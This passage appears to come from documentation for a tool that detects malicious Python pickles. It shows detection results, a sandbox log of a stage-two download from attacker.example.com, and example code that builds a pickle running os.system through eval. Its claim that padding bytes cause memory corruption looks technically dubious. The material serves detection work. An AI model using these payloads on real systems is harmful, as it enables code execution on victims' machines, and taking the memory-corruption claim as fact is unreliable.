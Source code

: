 ### Detection Results
```
Detection Result: MALICIOUS (Confidence: 99.2%)
Threat Type: Multi-stage Attack
Explanation: This pickle contains code that downloads and executes additional pickle payloads
Key indicators: GLOBAL opcode referencing urllib.request, pickle.load pattern, network activity
Scan Time: 0.037ms
```

### Behavioral Analysis
The behavioral analysis reveals the multi-stage nature of the attack:

```
[SANDBOX] Network connection attempt: attacker.example.com/stage2.pkl
[SANDBOX] File created: /tmp/tmpf8a2xk9p
[SANDBOX] Pickle load operation detected on downloaded file
[SANDBOX] Malicious behavior confirmed: Multi-stage payload execution
```

## Example 5: Memory Corruption Exploit

### Description
This example demonstrates a pickle that exploits memory corruption vulnerabilities in the pickle module.

### Malicious Pickle Code
```python
import pickle
import struct

# Create a malicious pickle that exploits memory corruption
malicious_data = b"(c__builtin__\neval\n(S'__import__(\"os\").system(\"echo pwned\")'\ntR."

# Add memory corruption trigger
malicious_data += struct.pack("<Q", 0xdeadbeefdeadbeef)  # Memory address
malicious_data += b"A" * 1000  # Buffer overflow payload

# Write the malicious pickle
with open('memory_corruption.pkl', 'wb') as f:
    f.write(malicious_data)
```

### Visual Analysis
**Memory Corruption Analysis:**
- **Opcode Pattern:** Invalid pickle format with buffer overflow data
- **Suspicious Elements:** Raw memory addresses, overflow patterns
- **Entropy Level:** Extremely High (random buffer data)
- **Structure:** Malformed pickle with embedded exploitation payload

### Detection Results
```
Detection Result: MALICIOUS (Confidence: 97.8%)
Threat Type: Memory Corruption Exploit
Explanation: This pickle contains invalid structures designed to trigger memory corruption
Key indicators: Invalid pickle format, buffer overflow pattern, eval opcode
Scan Time: 0.028ms
```
